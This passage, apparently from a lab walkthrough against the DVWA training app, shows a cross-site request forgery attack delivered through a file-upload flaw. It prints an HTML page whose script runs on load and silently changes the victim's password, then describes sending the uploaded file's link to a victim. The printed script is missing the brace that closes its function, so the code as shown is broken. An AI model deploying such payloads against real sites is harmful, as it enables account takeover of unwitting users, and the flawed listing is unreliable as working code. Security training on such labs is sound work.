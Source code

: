 What we want at this point is to send the request directly from the target server, and to do that we have a very easy option.  
As I told you in the introductory article at [this address](http://stackzero.net/csrf-introduction/) we can chain an XSS and a CSRF vulnerability, so we could pack this payload within a reflected XSS for example.

However, in this walkthrough, I want to show you another easier way that can make us just focus on CSRF.  
We are going to use a file upload vulnerability to send our payload to the server and then we can simply deliver the malicious link.

So the first step is to set again the security of DVWA as low ( this is not a tutorial on File Upload so we don’t want to manage its security checks).

After doing that we can create an HTML file that I’m going to call “_csrf_js.html_“, and it will contain the payload.

This is the file content:

```
<html>
    <head>

    </head>
    <body onload="change_password()">
        <script>
            function change_password(){
            const request = new XMLHttpRequest();
            const url = 'http://10.10.131.218/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#'

            request.open("GET", url);
     
            request.send();

            </script>
    </body>
</html>
```

As you can see is a very basic request with Javascript that runs on a body load event.

**“The URL depends on your target machine”**

After saving this file, and setting the security as LOW, go into the File Upload section:

![](http://stackzero.net/wp-content/uploads/2022/11/file_upload_main.jpg)

You can upload that and BAM!  
Now you have your malicious link to send to your victim that has this format:

`<VULNERABLE_SERVER_IP>/hackable/uploads/<HTML_PAYLOAD>`

So in my case, it will be:

`http://10.10.131.218/hackable/uploads/csrf_js.html`
